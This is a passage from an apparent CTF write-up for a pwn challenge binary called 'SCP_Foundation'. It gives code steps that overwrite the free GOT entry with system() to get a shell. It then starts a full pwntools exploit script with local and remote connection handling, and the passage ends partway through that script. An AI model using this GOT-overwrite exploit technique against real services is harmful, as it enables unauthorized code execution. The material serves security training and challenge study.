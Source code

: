 ```python

# overwrite free got
add(0x28,'/bin/sh\0',0x58,'a'*14+p64(system)) #7
```

### getshell

```python
# system('/bin/sh')
dlt(7)
```

### exp

```python
#!/usr/bin/python
#coding=utf-8
#__author__:TaQini

from pwn import *

local_file  = './SCP_Foundation'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = '../../libc-2.23.so'

is_local = False
is_remote = False

if len(sys.argv) == 1:
    is_local = True
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
    else:
        host, port = sys.argv[1].split(':')
    p = remote(host, port)
    libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
    if is_local: gdb.attach(p,cmd)

def add(n_size, name, d_size, desc):
    sla('want to do :','2')
    sla('> SCP name\'s length : ', str(n_size))
```